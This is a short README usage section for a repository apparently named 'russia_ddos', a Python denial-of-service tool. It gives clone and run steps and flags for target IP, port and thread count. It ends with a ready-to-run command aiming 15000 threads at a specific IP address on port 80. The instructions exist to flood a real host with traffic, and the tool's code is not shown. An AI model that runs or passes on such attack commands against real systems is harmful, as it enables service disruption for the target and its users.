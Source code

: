 ## Usage
Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;
-p - port (default 80);
-t - threads count.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
python -u main.py -s 213.24.76.23 -p 80 -t 15000
```
